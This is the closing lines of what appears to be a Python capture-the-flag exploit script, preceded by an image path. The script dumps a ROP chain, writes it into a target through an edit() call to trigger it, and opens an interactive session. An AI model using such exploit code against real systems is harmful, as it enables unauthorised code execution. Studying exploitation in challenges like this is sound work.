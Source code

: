 ```py

    print(rop.dump())
    print(hex(len(rop.chain()) - 8))

    # write and trigger the ROPchain
    edit(1, rop.chain())
    
    io.interactive()

if __name__ == "__main__":
    exp()
```